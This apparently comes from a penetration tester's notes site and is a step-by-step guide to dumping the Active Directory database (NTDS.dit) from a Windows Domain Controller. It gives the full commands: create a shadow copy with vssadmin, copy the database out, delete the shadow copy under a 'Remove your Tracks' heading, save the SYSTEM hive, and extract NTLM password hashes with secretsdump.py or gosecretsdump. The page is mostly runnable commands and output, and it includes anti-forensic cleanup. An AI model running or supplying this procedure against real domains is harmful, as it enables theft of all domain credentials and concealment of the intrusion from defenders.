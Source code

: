 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit from ShadowCopy

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%attachments fa_icon_class="far fa-file-archive" pattern=".*(zip)"%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

### Step 4 - Save the SYSTEM file

Save the `SYSTEM` file.

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
